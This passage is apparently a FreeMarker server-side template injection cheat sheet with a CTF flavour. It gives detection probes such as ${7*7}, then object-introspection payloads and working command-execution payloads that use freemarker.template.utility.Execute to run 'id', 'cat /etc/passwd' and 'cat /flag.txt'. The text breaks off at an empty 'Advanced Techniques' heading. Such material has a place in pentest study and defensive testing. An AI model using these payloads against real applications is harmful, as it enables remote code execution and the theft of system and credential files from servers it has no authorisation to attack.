 Test for vulnerability with:

```
${7*7}
<#assign x=7*7>${x}
```

If this returns `49`, you have a FreeMarker SSTI vulnerability.

## Core Exploitation Techniques

### Basic Expression Evaluation

```
${3*4}
${1+2}
```

### Variable Assignment

```
<#assign test="freemarker">
${test}
```

### Object Introspection

```
${object}
${object?api}
```

### Access to Java Objects

```
${.version}
${.globals}
${.main}
```

### File Operations

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /etc/passwd")}
${new java.io.BufferedReader(new java.io.FileReader("/flag.txt")).readLine()}
```

### Command Execution

```
<#assign cmd="freemarker.template.utility.Execute"?new()>${cmd("id")}
<#assign cmd="freemarker.template.utility.Execute"?new()>${cmd("cat /flag.txt")}
```

## Advanced Techniques
